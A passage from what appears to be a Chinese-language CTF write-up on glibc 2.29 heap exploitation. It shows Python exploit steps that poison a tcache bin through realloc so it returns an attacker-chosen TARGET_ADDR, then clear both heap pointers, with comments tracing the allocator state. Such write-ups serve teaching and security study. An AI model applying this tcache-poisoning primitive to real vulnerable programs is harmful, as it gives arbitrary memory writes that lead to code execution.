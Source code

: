 ```python

# ====== 投毒 tcache[0] =======
alloc(0,16,"aaaa")
# heap[0]-> chunk0
# heap[1] -> NULL
realloc(0,0)
# tcache[0] -> chunk0
# heap[0] -> chunk0
# heap[1] -> NULL
realloc(0,16,pack(TARGET_ADDR))
# tcache[0] -> chunk0 -> TARGET_ADDR
# heap[0] -> chunk0(32size)
# heap[1] -> NULL

# 取下来,这时chunk0中的key已经置为0
alloc(1,16,"bbbb")
# tcache[0]->TARGET_ADDR
# heap[0] -> chunk0(32size)
# heap[1] -> chunk0

```

这个版本的 glibc 没有count检查，不需要多free一个[Glibc-2.29-malloc:2949](https://elixir.free-electrons.com/glibc/glibc-2.29.9000/source/malloc/malloc.c#L2949)

投毒成功。下一次分配32 字节的chunk，tcache 就会返回我们想要的地址。

**然后是把两个heap指针置空**


```python
# -----现在把两个heap指针变为0-----

# 扩展chunk 0,扩展是为了释放时能把chunk放到另一个tcache bin中。
realloc(0,32,"aaaa")
# tcache[0]->TARGET_ADDR
# heap[0] -> chunk0'(48size)
# heap[1] -> chunk0'

rfree(0)
# tcache[0]->TARGET_ADDR
# tcache[1]->chunk0'(48size)
# heap[0] -> NULL
# heap[1] -> chunk0'

# 再扩展一次
realloc(1,48,"aaaa")
# tcache[0]->TARGET_ADDR
# tcache[1]->chunk0''(64size)
# heap[0] -> NULL
# heap[1] -> chunk0''

rfree(1)
# tcache[0]->TARGET_ADDR
# tcache[1]->chunk0''(64size)
# tcache[2]->chunk0''  tcahce[2]中的循环不会找到 <https://elixir.free-electrons.com/glibc/glibc-2.29.9000/source/malloc/malloc.c#L4205>
# heap[0] -> NULL
# heap[1] -> NULL

```
